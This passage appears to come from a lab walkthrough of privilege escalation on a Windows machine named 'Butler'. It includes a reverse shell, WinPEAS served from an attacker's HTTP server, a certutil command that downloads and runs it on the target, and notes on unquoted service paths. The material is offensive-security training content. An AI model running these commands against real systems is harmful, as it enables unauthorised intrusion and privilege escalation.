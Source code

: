 ![Reverse Shell as 'butler' user](3-eth-hackassets/2024-07-14_18-55-25_628.png)

```bash
whoami
systeminfo

OS Version: 10.0.19043 N/A Build 19043
```

#### Privesc WinPEAS

➡️ [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

```bash
# Kali VM
cd ~/tools
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/winPEASx64.exe
mv winPEASx64.exe winpeas.exe

python3 -m http.server 80
```

```bash
# Target reverse shell
cd c:\Users\butler
certutil.exe -urlcache -f http://192.168.31.131/winpeas.exe winpeas.exe
# the file will be copied to the target machine

# Run LinPEAS
winpeas.exe
```

- Look for useful (red color) information, quick wins for privilege escalation

**Unquoted service paths**

- [Unquoted Service Paths | Red Team Notes](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)
- Abuse misconfigured services, possible when path the the service is not quoted and there are spaces in the path
